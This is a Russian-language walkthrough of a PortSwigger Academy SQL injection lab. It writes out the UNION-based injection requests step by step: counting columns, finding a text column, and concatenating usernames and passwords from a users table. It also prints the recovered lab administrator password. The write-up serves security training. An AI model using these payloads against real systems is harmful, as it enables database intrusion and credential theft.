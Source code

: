 Зайдем на страницу `Pets` и найдем в `Proxy` -> `HTTP history` необходимый нам запрос
```
GET /filter?category=Pets
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column/pics%20for%20walktrough/1.png)

Аналогично методам из прошлых лабораторных работ определяем количество столбцов, которое содержится в нашей таблице. Методом перебора определяем, что их количество - 2
```
GET /filter?category=Pets'+UNION+SELECT+NULL,NULL--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column/pics%20for%20walktrough/2.png)

Далее, нам необходимо определить какие из данных столбцов имеют текстовый формат, для коррекного вывода полей `username`, `password`, которые нам неоходимо вывести согласно заданию
Пробуем запрос

```
GET /filter?category=Pets'+UNION+SELECT+'a','a'--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column/pics%20for%20walktrough/3.png)
И получаем ошибку

А вот при следующем запросе получаем успешный ответ

```
GET /filter?category=Pets'+UNION+SELECT+NULL,'a'--
```
Сответсвенно делаем вывод, что только второй столбец имеет текстовый формат данных
Далее, Объединим в одну колонку значения из другой таблицы, известной нам по заданию
```
GET /filter?category=Pets'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column/pics%20for%20walktrough/4.png)

Получаем связку логин-пароль от УЗ 
`administrator:dbc9xiqpqdunhzahsa3x`
Введем их в поля для аутентификации пользователей, после чего и получим поздравление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column/pics%20for%20walktrough/5.png)

